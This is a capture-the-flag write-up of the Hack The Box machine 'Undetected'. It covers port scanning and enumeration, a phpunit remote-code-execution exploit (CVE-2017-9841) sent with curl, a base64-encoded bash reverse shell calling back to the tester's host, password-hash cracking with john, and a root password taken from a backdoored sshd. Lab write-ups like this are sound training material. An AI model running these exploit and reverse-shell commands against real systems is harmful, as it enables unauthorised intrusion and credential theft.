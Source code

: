 # [Undetected](https://app.hackthebox.com/machines/undetected)

```bash
nmap -p- --min-rate 10000  10.10.11.146 -Pn 
```

![Alt text](img/image.png)


After knowing open ports (22,80) let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.146 -Pn 
```

![Alt text](img/image-1.png)



Let's do subdomain enumeration.

```bash
wfuzz -u http://10.10.11.146 -H "Host: FUZZ.djewelry.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 15283
```

![Alt text](img/image-2.png)


Let's add this ip address into '/etc/hosts' file.

![Alt text](img/image-3.png)


Let's do directory enumeration.

```bash
gobuster dir -u http://store.djewelry.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 40 -x txt
```

![Alt text](img/image-4.png)

I just see the version of 'phpunit' that is vulnerable to publicly known exploit (RCE).

```bash
curl -s 'http://store.djewelry.htb/vendor/composer/installed.json' | jq -c '.[] | [.name, .version]'
```

![Alt text](img/image-5.png)


That's vulnerability called [CVE-2017-9841](https://www.exploit-db.com/exploits/50702).

Let's use this.

```bash
curl 'http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php' -d '<?php system("id"); ?>'
```

![Alt text](img/image-6.png)


Let's add reverse shell payload into here.

```bash
echo "bash -i >& /dev/tcp/10.10.14.6/1337 0>&1" | base64 -w 0  #save this for then
```


Then make a browsing request to work your RCE.

```bash
curl 'http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php' -d '<?php system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzEzMzcgMD4mMQo=|base64 -d|bash"); ?>'
```

I got reverse shell from port (1337).

![Alt text](img/image-7.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

After enumeration, I find '/var/backups/info' , that's detected by `linpeas.sh`

I just read this via `cat` command.

![Alt text](img/image-8.png)


I take the value which passes from `/bin/bash` 's command -c argument, and read this via `xxd -r -p` command.

```bash
echo data | xxd -r -p
```

![Alt text](img/image-9.png)


I got password hash from here as below.

```bash
$6$zS7ykHfFMg3aYht4$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/
```


Let's crack this via `john` tool.

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-10.png)


Let's login into 'steven1' account via password which we grabbed.

steven1: ihatehackers


![Alt text](img/image-11.png)



While reading `/usr/bin/sshd` binary file as executable via reverse engineering tools, I see 'backdoor' variable in many times.

![Alt text](img/image-12.png)


While I decrypt this via using [Cyberchef](https://cyberchef.io/)

![Alt text](img/image-13.png)


I got password of 'root' user.

root: @=qfe5%2^k-aq@%k@%6k6b@$u#f*b?3


root.txt

![Alt text](img/image-14.png)